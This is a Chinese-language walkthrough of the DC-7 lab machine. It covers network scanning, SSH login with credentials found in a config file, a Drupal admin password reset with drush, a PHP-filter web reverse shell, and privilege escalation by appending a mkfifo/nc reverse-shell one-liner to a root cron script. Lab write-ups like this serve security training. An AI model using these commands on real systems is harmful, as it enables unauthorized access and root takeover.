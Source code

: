 # 端口发现
nmap -sP 192.168.31.0/24
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668735253739-adff8ee5-6701-4a7f-9c67-3914c4bd01cf.png#averageHue=%2328313d&clientId=u19e9c27b-a566-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=336&id=u8d5c14f7&margin=%5Bobject%20Object%5D&name=image.png&originHeight=336&originWidth=1062&originalType=binary&ratio=1&rotation=0&showTitle=false&size=97585&status=done&style=none&taskId=uf10a9619-86cb-4a51-85c1-291b10b3956&title=&width=1062)
nmap -p- -A 192.168.31.149
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668735286397-22562f46-ba96-410a-bf30-350f2cc595d0.png#averageHue=%2328313d&clientId=u19e9c27b-a566-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=509&id=u069bdb13&margin=%5Bobject%20Object%5D&name=image.png&originHeight=509&originWidth=1247&originalType=binary&ratio=1&rotation=0&showTitle=false&size=147602&status=done&style=none&taskId=u86ff3eea-d28f-4592-b1e4-0032c0eb741&title=&width=1247)
# web 突破
dirb 扫描网站后台没发现东西
访问 80 端口，
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668735671109-709b9a08-a69a-4482-ae91-cf225b44945c.png#averageHue=%2390908d&clientId=u0ed02e02-5029-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=957&id=u62d392fd&margin=%5Bobject%20Object%5D&name=image.png&originHeight=957&originWidth=1919&originalType=binary&ratio=1&rotation=0&showTitle=false&size=95411&status=done&style=none&taskId=ua50de1d0-12e8-4dc1-9429-51dbc604bf2&title=&width=1919)
cms 是 drupal，先考虑 msf，
msf 模块对这个网站没有成功
搜索 网站下方的接入点
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668736065455-06d7373a-b221-4e8a-bdce-7d2bfd30272b.png#averageHue=%23323131&clientId=u16243cbc-df3f-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=387&id=ufeae86dd&margin=%5Bobject%20Object%5D&name=image.png&originHeight=387&originWidth=1031&originalType=binary&ratio=1&rotation=0&showTitle=false&size=8611&status=done&style=none&taskId=uf6819ae5-48b1-4df5-91fe-deb60658c99&title=&width=1031)
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668736027102-35282c58-4ed7-4e35-8a66-cf5199433789.png#averageHue=%23fcfbf7&clientId=u16243cbc-df3f-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=998&id=u94429a84&margin=%5Bobject%20Object%5D&name=image.png&originHeight=998&originWidth=1920&originalType=binary&ratio=1&rotation=0&showTitle=false&size=205982&status=done&style=none&taskId=ufade7770-475d-44fb-b6a6-d3063dec533&title=&width=1920)
点击 config.php
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668736088325-8aea4d6f-12d7-4376-9c93-c4c1a2545a30.png#averageHue=%23ecd4a6&clientId=u16243cbc-df3f-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=621&id=ubae93833&margin=%5Bobject%20Object%5D&name=image.png&originHeight=621&originWidth=1920&originalType=binary&ratio=1&rotation=0&showTitle=false&size=46710&status=done&style=none&taskId=uf07dfa4f-22ff-4259-90da-d4b0536f91e&title=&width=1920)
发现接入点默认的用户名和密码
dc7user : MdR3xOgB7#dW
尝试连接 ssh
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668736201038-c4b74076-f21f-4bd1-8c98-985ee51f6183.png#averageHue=%23293340&clientId=u16243cbc-df3f-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=354&id=u7d66c019&margin=%5Bobject%20Object%5D&name=image.png&originHeight=354&originWidth=1008&originalType=binary&ratio=1&rotation=0&showTitle=false&size=103731&status=done&style=none&taskId=u1cecbc5a-bd45-4eef-aa8e-fb49637b158&title=&width=1008)
连接成功
先浏览一遍目录
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668736448891-8f094623-8228-4473-9a4b-5cd274c9af0e.png#averageHue=%23262f3b&clientId=u16243cbc-df3f-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=304&id=u27c1aec9&margin=%5Bobject%20Object%5D&name=image.png&originHeight=304&originWidth=1232&originalType=binary&ratio=1&rotation=0&showTitle=false&size=75244&status=done&style=none&taskId=u075dce7f-2544-48fd-a4af-fc67d1bb3d8&title=&width=1232)
查看 mbox
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668736501349-838d260d-d568-4133-b8a4-4ef28551a6bf.png#averageHue=%23272f3b&clientId=u16243cbc-df3f-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=465&id=u87a5c0a1&margin=%5Bobject%20Object%5D&name=image.png&originHeight=465&originWidth=1247&originalType=binary&ratio=1&rotation=0&showTitle=false&size=121663&status=done&style=none&taskId=ud15df718-15c9-4bbd-ba53-a9f2d0fb150&title=&width=1247)
可以得知有个脚本在 /opt/scripts/backups.sh
查看 /opt/scripts/backups.sh
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668736616449-07d44d0b-8d8d-4545-83c2-ebadae8d29eb.png#averageHue=%2326303c&clientId=u16243cbc-df3f-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=335&id=u69054ffa&margin=%5Bobject%20Object%5D&name=image.png&originHeight=335&originWidth=1254&originalType=binary&ratio=1&rotation=0&showTitle=false&size=87950&status=done&style=none&taskId=uea1d58f6-974d-4c2e-9df7-fb6bc777ca5&title=&width=1254)
提示我们切换到 /var/www/html 使用 drush 命令
_Drush(Drush = Drupal + Shell)就是使用命令行命令来操作Drupal站点，它的命令格式与git类似，都是双字命令（drush + 实际的命令）_
使用 drush 来修改管理员的密码
drush user-password admin --password="123456"
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668736914712-3ca2d1a8-70ca-450e-83fe-47e9b1b4be96.png#averageHue=%23273240&clientId=uaded75b9-9f35-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=81&id=uf6a58162&margin=%5Bobject%20Object%5D&name=image.png&originHeight=81&originWidth=788&originalType=binary&ratio=1&rotation=0&showTitle=false&size=20593&status=done&style=none&taskId=u83c7ebbd-72b8-4485-b6db-833f59a75fa&title=&width=788)
密码修改成功
去登录
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668736955493-f5460906-d2c9-4f28-90ba-197de761c65f.png#averageHue=%23f3f0e8&clientId=uaded75b9-9f35-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=523&id=u130acbca&margin=%5Bobject%20Object%5D&name=image.png&originHeight=523&originWidth=1363&originalType=binary&ratio=1&rotation=0&showTitle=false&size=24287&status=done&style=none&taskId=u03452c01-86f7-460f-bd81-6f95d7e4d8b&title=&width=1363)
登录成功
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668736990726-49421e9f-33ec-49a9-b843-49cfa4ccede1.png#averageHue=%23f2f0db&clientId=uaded75b9-9f35-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=876&id=uc3163b5b&margin=%5Bobject%20Object%5D&name=image.png&originHeight=876&originWidth=1920&originalType=binary&ratio=1&rotation=0&showTitle=false&size=97223&status=done&style=none&taskId=u48274f9f-cf17-47f4-b0bc-7ff8aa30bc6&title=&width=1920)
在 Extend -> Install new module 中下载安装 php 模块
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668737167098-b0123524-facd-420d-abf3-06349ec2e935.png#averageHue=%23eeeeeb&clientId=uaded75b9-9f35-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=735&id=u64994822&margin=%5Bobject%20Object%5D&name=image.png&originHeight=735&originWidth=1920&originalType=binary&ratio=1&rotation=0&showTitle=false&size=112858&status=done&style=none&taskId=ufb81d72c-b27f-4b3d-aa42-3302725f708&title=&width=1920)
安装成功
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668737185719-7bb6052e-0da4-4802-9935-064f8b910176.png#averageHue=%23ebf5e7&clientId=uaded75b9-9f35-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=598&id=u2cfacc4d&margin=%5Bobject%20Object%5D&name=image.png&originHeight=598&originWidth=1430&originalType=binary&ratio=1&rotation=0&showTitle=false&size=39040&status=done&style=none&taskId=uf5ef02a0-79be-44b6-841e-4e2d4c16da0&title=&width=1430)
安装完成后，在 Extend -> PHP Filter（展开） -> Configure ->Add text format 中添加 php 文本类型
然后回到 Content -> Welcome to DC-7 -> Edit 中修改文本类型为 php
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668737971976-146ce71f-ac54-40e7-b441-370a387256a2.png#averageHue=%23efedeb&clientId=uaded75b9-9f35-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=850&id=u3206bb70&margin=%5Bobject%20Object%5D&name=image.png&originHeight=850&originWidth=1920&originalType=binary&ratio=1&rotation=0&showTitle=false&size=84191&status=done&style=none&taskId=u2ca01cd2-d3f1-4f95-a807-3fcc2b455c0&title=&width=1920)
将内容修改为反弹 shell
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668738023375-f334b0cc-c2c8-4704-8c4d-ef8f1fd74a7e.png#averageHue=%23f8f7f7&clientId=uaded75b9-9f35-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=535&id=u62ded042&margin=%5Bobject%20Object%5D&name=image.png&originHeight=535&originWidth=1225&originalType=binary&ratio=1&rotation=0&showTitle=false&size=48635&status=done&style=none&taskId=u9e57944f-114b-488c-8a8b-dbc24e6b082&title=&width=1225)
kali 开启监听
保存预览
预览如下：
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668738115578-65139a6f-5135-4bad-a870-80497acd0838.png#averageHue=%23f4f3ee&clientId=uaded75b9-9f35-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=799&id=ub58cdfcb&margin=%5Bobject%20Object%5D&name=image.png&originHeight=799&originWidth=1920&originalType=binary&ratio=1&rotation=0&showTitle=false&size=38501&status=done&style=none&taskId=u683213e9-fc2a-4236-a093-80180c0419c&title=&width=1920)
反弹 shell 成功
python 优化 shell
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668738133650-db1ce623-b075-4fdb-acc6-f87bc264271e.png#averageHue=%232a323f&clientId=uaded75b9-9f35-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=210&id=u6b389265&margin=%5Bobject%20Object%5D&name=image.png&originHeight=210&originWidth=1037&originalType=binary&ratio=1&rotation=0&showTitle=false&size=58088&status=done&style=none&taskId=u7ddd43b5-391c-43b5-b8e1-6d13ef3faab&title=&width=1037)
# 提权
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668738414766-34f10615-1afd-479e-9be3-a2015ff9169d.png#averageHue=%2327313e&clientId=uaded75b9-9f35-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=101&id=u472ddb2b&margin=%5Bobject%20Object%5D&name=image.png&originHeight=101&originWidth=605&originalType=binary&ratio=1&rotation=0&showTitle=false&size=16140&status=done&style=none&taskId=u01281358-27c3-4395-a2d7-26516c13306&title=&width=605)
backups.sh 这个脚本的文件所属组就是 www-data
写入反弹 shell 代码到这个脚本中
echo "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.31.128 1234 >/tmp/f" >>backups.sh
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668738630313-0396c23a-89b1-4cc3-a85b-2ae3b2944105.png#averageHue=%2328313f&clientId=uaded75b9-9f35-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=61&id=ub23b20b8&margin=%5Bobject%20Object%5D&name=image.png&originHeight=61&originWidth=1239&originalType=binary&ratio=1&rotation=0&showTitle=false&size=20877&status=done&style=none&taskId=u3f4a2e8c-ee99-4a53-9898-4beb59a7bd3&title=&width=1239)
kali 监听 1234 端口
脚本文件大概15分钟执行一次
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668738660332-d7353e1e-552c-45ff-b9a1-168b6cb651a3.png#averageHue=%23283341&clientId=uaded75b9-9f35-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=172&id=ucf366c9c&margin=%5Bobject%20Object%5D&name=image.png&originHeight=172&originWidth=695&originalType=binary&ratio=1&rotation=0&showTitle=false&size=35866&status=done&style=none&taskId=u503d7ae7-56dc-4610-b0ec-276dde95725&title=&width=695)
拿 flag
![image.png](https://cdn.nlark.com/yuque/0/2022/png/23194752/1668738714034-e41f851f-6a37-4088-b862-1d8548b0880d.png#averageHue=%2328303c&clientId=uaded75b9-9f35-4&crop=0&crop=0&crop=1&crop=1&from=paste&height=484&id=u735d35cb&margin=%5Bobject%20Object%5D&name=image.png&originHeight=484&originWidth=1181&originalType=binary&ratio=1&rotation=0&showTitle=false&size=76728&status=done&style=none&taskId=ufd9570dc-29db-4b89-9a8c-d2593da446c&title=&width=1181)















